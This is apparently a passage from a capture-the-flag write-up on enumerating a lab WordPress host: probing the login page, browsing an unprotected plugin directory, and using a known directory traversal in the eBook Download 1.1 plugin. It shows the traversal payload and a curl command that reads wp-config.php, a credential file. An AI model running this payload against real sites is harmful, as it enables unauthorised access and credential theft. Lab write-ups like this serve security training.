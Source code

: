The homepage is a default WordPress theme with minimal content.

### 2.2 Login Panel

Attempt to access the default login endpoint:

``` bash
http://10.10.11.125/wp-login.php
```

![[wp_login.png]]

Default credentials failed.

---

### 2.3 Plugin Enumeration

By default, `/wp-content/plugins` should have a blank `index.php` to prevent directory listing.  
Here, the file is missing, allowing us to browse the directory:

``` bash
http://10.10.11.125/wp-content/plugins/
```

![[wp_plugins.png]]

Two plugins found:

- `hello.php` → Uninteresting
- `ebook-download` → Contains `readme.txt` revealing version **1.1**.

---

### 2.4 Exploiting `ebook-download` Plugin

Search for known exploits:

``` bash
searchsploit ebook download
```

![[sploit_ebook.png]]

Exploit details:

`Exploit Title: WordPress eBook Download 1.1 | Directory Traversal Author: Wad-Deek Link: https://www.exploit-db.com/exploits/39575`

The vulnerability allows path traversal via:

`filedownload.php?ebookdownloadurl=../../../wp-config.php`

Retrieve `wp-config.php`:

``` bash
curl -s -X GET "http://10.10.11.125/wp-content/plugins/ebook-download/filedownload.php?ebookdownloadurl=../../../wp-config.php"
```
